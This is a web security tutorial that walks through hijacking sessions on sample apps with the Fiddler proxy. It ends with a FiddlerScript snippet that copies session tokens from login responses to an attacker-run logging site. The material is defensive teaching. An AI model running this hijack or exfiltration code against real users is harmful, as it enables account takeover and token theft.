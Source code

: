 <img src="{{ site.baseurl }}/rsillem/assets/security-mitm/fiddler-2.png" style="display: block; margin: auto;"/>

If you're already somewhat security-aware you may be thinking "This is rubbish - using the same cookie for session ID and (effectively) authentication status." Yes, but for now, it's kept simple.


Run the hijack by hand, using Fiddler
-----

In fact, you've already done the first part of the attack. Fiddler is an HTTP proxy, which is to say a (benign) man in the middle. It's reading the HTTP traffic between client and server. If it was not benign, it might be sending any session IDs it found to (e.g.) an API on the attacker's own site, where they might be decoded and logged. Either way, watch the victim's traffic and extract the session ID (JWT or cookie). In the Jade-Express-MySQL sample use a logged in session for the victim.

The exploits are now trivially simple:

In the MEAN stack sample, using Fiddler capture a valid response to a post to `/api/session`. Save it as a file and paste in the session ID, adjusting the content length to the right number as necessary. Now use the AutoResponder tab in Fiddler to have it send back this response rather than going to the server for an `/api/login` post. Put your attacker hat on, fire up a different browser and login, with no user name or password. You are now logged in as the victim. Post offensive messages at will, and turn the AutoResponder off when you're finished.

<img src="{{ site.baseurl }}/rsillem/assets/security-mitm/fiddler-1.png" style="display: block; margin: auto;"/>

In the Jade-Express-MySQL sample, using the cookie editor extension in a different browser, replace the existing cookie with the one you extracted. You are now logged in as the victim. In fact you actually using the same session on the server in this sample - unlike the MEAN stack sample, where session state is stored in the browser. This means that if the attacker logs out, the victim is logged out too.

You may now be idly considering how to automate this process. But then you'd be writing malware, so don't. This is about how to defend your applications.

Use Fiddler to find unprotected session IDs
-----
We can do some basic filtering using Fiddler's Filters tab - for instance we can set a filter to flag (highlight) either requests which send the `X-Auth` header or any 200 status response received from `/api/login`, meaning the authentication process was successful.

Now put this together to customise Fiddler so it shows if any session ID tokens/cookies are sent over HTTP for either of the samples - you should now have a detailed understanding of exactly what you want to catch on each sample app. This will be the basis of our testing - you will just run the apps with Fiddler capturing HTTP requests and flagging the bad ones.

As a further exercise, we can use the Attacker\_site sample with some additional Fiddler rules. The attacker site is a very simple site which collects and displays on screen any data which is sent to its `/api/logs` endpoint as a query parameter on a GET request. The attacker sets this website up, then sits back and watches your secrets roll in. Let's set it up to intercept the session tokens as they are sent back from the server.

Using [FiddlerScript](http://docs.telerik.com/fiddler/KnowledgeBase/FiddlerScript/ModifyRequestOrResponse) for more details:

* Open the FiddlerRules files: Click Rules => Customized Rules... (or press Ctrl+R)
* Go to the method `static function OnBeforeResponse(oSession: Session)`  - or create one if needed
* Type the following to catch any authentication response:
```
    if (oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/login") && oSession.responseCode == 200){
        var origin = oSession.url;
        var type = "[SESSION]";
        var value = System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes);
        var queryString = System.String.Format("origin={0}&type={1}&value={2}", origin, type, value);
        Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString);
    }
```
